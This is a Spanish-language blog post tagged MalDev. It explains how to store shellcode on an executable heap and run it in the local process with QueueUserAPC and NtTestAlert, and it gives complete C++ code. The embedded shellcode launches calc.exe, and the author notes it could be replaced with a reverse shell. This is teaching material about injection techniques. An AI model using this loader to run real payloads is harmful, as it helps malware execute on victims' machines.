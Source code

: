 ```yaml
---
layout: post
title: Shellcode almacenada en el heap e inyección vía APC injection y NtTestAlert en un proceso local
author: GuxFiz
date: 2023-07-17
tags: [MalDev]
image: /assets/img/heap-queue/waifu.jpg
---
```


Esta vez vamos a almacenar la shellcode en el heap de un proceso local usando HeapCrate y HeapAlloc y la ejecutaremos con QueueUserAPC y la NTAPI indocumentada NtTestAlert

## Asynchronous Procedure Calls (APC) y QueueUserAPC()

De acuerdo a la MSDN, una APC es:

> Es una función que se ejecuta de forma asíncrona en el contexto de un subproceso en particular

Cada subproceso tiene un propia cola APC, y un subproceso debe estar en un estado de alerta para ejecutar un APC en modo de usuario, algunas formas de indicarle a un subproceso que este en modo de alerta es con las funciones **SleepEx** , **SignalObjectAndWait**, **MsgWaitForMultipleObjectsEx**, etc.

La forma en la que podemos agregar una APC a la cola APC es usando **QueueUserAPC**, la estructura de QueueUserAPC es:

```c++
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

- **pfnAPC** es un puntero a la APC que se llamara cuando el subproceso realiza una operacion de alerta
- **hThread** es el identificador del hilo 
- **dwData** es un valor que funciona como un parametro a **pfnAPC**

## Flujo de ejecucion

- Crear un heap usando **HeapCreate**
- Se asigna un bloque de memoria con **HeapAlloc** del tamaño de la shellcode en el heap creado con **HeapCreate**
- Se escribe la shellcode en el bloque de memoria del heap usando **WriteProcessMemory**
- Se encola una APC en el subproceso actual usando **QueueUserAPC**
- Se llama **NtTestAlert** para forzar la ejecucion de la APC

### Codigo

```c++
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){
    myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
    LPVOID shellcodeHeap = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
    WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
    QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
    testAlert();

    return 0;
}
```

Pimero creamos un heap en donde le indicamos que en las opciones de asignacion tenga **HEAP_CREATE_ENABLE_EXECUTE** para que los bloques de memoria que se asignen permitan ejecutar codigo

```c++
HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
```

Despues asignamos un bloque de memoria donde le indicamos con **HEAP_ZERO_MEMORY** que la asignacion inicie con cero, y el tamaño de la asignacion sea el tamaño de la shellcode, por eso se usa **sizeof(shellcode)**

```c++
HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
```

Despues escribimos la shellcode en el bloque de memoria del heap, se usa **GetCurrentProcess()** para que el identificador del proceso sea el identificador del proceso actual, el tamaño en bytes que se van a escribir es igual al tamaño de la shellcode, por eso se vuelve a usar **sizeof(shellcode)**

```c++
WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
```

Despues declaramos **apcRoutine** como un puntero **PTHREAD_START_ROUTINE** el cual se le asignara la direccion de memoria que tiene **shellcodeHeap**, con esto le indicariamos que la APC apunte a **shellcodeHeap** que es el bloque del heap que contiene la shellcode

```c++
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
```

Despues encolamos una APC a la cola APC, se le pasa **(PAPCFUNC)apcRoutine** para que **apcRoutine** sea interpretado como un puntero de tipo **PAPCFUNC** y sea una APC valida, tambien usamos **GetCurrentThread()** para que se use el identificador del hilo actual

```c++
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Y por ultimo mandamos a llamar a **testAlert()** para forzar la ejecucion de las APC encoladas en el hilo actual.

Si compilamos y ejecutamos se ejecutara la shellcode que la cual abrira la calculadora (evidetemente puedes cambiar la shellcode para que haga otra cosa, una reverse shell por ejemplo)

![](/assets/img/heap-queue/ejecucion.gif)

### Referencias

[https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

[https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert](https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert)

Eso ha sido todo, gracias por leer ❤
